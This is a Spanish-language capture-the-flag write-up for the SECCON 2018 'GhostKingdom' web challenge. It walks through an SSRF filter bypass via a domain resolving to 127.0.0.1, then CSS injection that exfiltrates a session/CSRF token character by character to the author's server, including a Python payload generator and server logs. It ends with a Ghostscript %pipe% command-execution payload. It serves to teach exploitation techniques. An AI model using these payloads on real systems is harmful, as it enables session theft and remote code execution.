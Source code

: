 # CTF SECCON 2018 - GhostKingdom

## Introducción

En la descripción de la prueba únicamente nos indican la siguiente URL
`http://ghostkingdom.pwn.seccon.jp/FLAG/`

![](img/ghostkingdom-001.png)

La pista es que la *flag* se encuentra en un archivo de este directorio, lo que nos hace sospechar desde un principio que el objetivo es conseguir ejecución de comandos para listar los archivos de este directorio.


En la página principal tenemos la opción de login, ademas de poder registrar usuarios.

![](img/ghostkingdom-002.png)

Registramos un usuario

```
http://ghostkingdom.pwn.seccon.jp/?user=patatas&pass1=fritas&pass2=fritas&action=register2
```

Una vez registrado, en el panel de opciones solamente tenemos habilitadas 2 opciones.

![](img/ghostkingdom-003.png)


## Take a Screenshot

La función de *screenshot* permite hacer una captura de pantalla de la URL que le indiquemos.

![](img/ghostkingdom-004.png)

![](img/ghostkingdom-005.png)


Si intentamos acceder a `http://127.0.0.1` obtenemos el siguiente mensaje:

```
You can not use URLs that contain the following keywords: 127, ::1, local
```

La solución es bastante simple, configurar nuestro propio dominio para que resuelva a `127.0.0.1`.

```
l.mydomain.com. IN A 127.0.0.1
```

![](img/ghostkingdom-006.png)

En esta aplicación web, todos los parámetros se pasan por GET. De esta forma podemos autenticamos en la aplicación a través del SSRF.

`http://l.mydomain.com/?user=patatas&pass=fritas&action=login`

![](img/ghostkingdom-007.png)

## Message to admin

Otra funcionalidad de la aplicación es enviar mensajes al administrador.

![](img/ghostkingdom-008.png)


Si marcamos la opción "Emergency" en el mensaje se formatea con CSS a través del parámetro con el mismo nombre.

```
css = c3BhbntiYWNrZ3JvdW5kLWNvbG9yOnJlZDtjb2xvcjp5ZWxsb3d9
```

![](img/ghostkingdom-009.png)


## PWN CSS

Modificando el parámetro `css` podemos inyectar código CSS a la página, sin embargo existen filtros que no nos permiten realizar una inyección HTML o XSS.

El parámetro `csrf` coincide con el valor de la cookie de sesión, por lo que el objetivo será exfiltrar esta información.

Debido a la forma en la que se carga el CSS, no es posible inyectar un payload recursivo que exfiltre el token completo en un solo screnshot, por lo que exfiltraremos cada carácter por separado.

El siguiente código hará que recibamos en nuestro servidor web el primer carácter.

```css
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/0_");}
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/1_");}
...
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/e_");}
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/f_");}
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
```

Una vez probado, realizamos el mismo proceso a través del SSRF. Con este script automatizamos gran parte del proceso de extracción.

```python
import sys
from base64 import b64encode
from urllib import quote as urlencode

if len(sys.argv)>1:
  inicio = sys.argv[1]
else:
  inicio = ''

element = 'input[name="csrf"]'
exfilturl = 'http://mydomain.com'
chars = '0123456789abcdef'

payload = ''
for c in chars:
  value = inicio + c
  payload += '%s[value^="%s"]{background:url("%s/%s");}\n' % (element, value, exfilturl, value+'_')

url = 'http://l.mydomain.com/?css=' + urlencode(b64encode(payload)) + '%2&msg=test&action=msgadm2'
url2 = 'http://ghostkingdom.pwn.seccon.jp/?url=' + urlencode(url) + '&action=sshot2'
print(url2)
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
163.43.113.139 - - [27/Oct/2018:12:30:50 +0200] "GET /b9_
...
163.43.113.139 - - [27/Oct/2018:12:53:09 +0200] "GET /b962fe196d05bbac1417_
163.43.113.139 - - [27/Oct/2018:12:53:40 +0200] "GET /b962fe196d05bbac14178_
163.43.113.139 - - [27/Oct/2018:12:54:21 +0200] "GET /b962fe196d05bbac14178a_

```

El siguiente script automatiza todo el proceso de extracción del a cookie: [seccon-ghostkingdom.py](https://github.com/jesux/ctf-write-ups/blob/master/seccon-2018/GhostKingdom/seccon-ghostkingdom.py)

Finalmente, la cookie obtenida es `b962fe196d05bbac14178a`.

Clonamos la cookie en el navegador y accedemos a la función de subida de imágenes.

![](img/ghostkingdom-010.png)

Una vez subida la imagen JPG, se utiliza el script `ghostMagick.cgi` para convertir la imagen a GIF.

Utilizamos el [exploit de Tavis Ormandy para Ghostscript](https://www.openwall.com/lists/oss-security/2018/08/21/2).

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%ls /var/www/html/FLAG/) currentdevice putdeviceprops
```

![](img/ghostkingdom-011.png)

![](img/ghostkingdom-012.png)

![](img/ghostkingdom-flag.png)
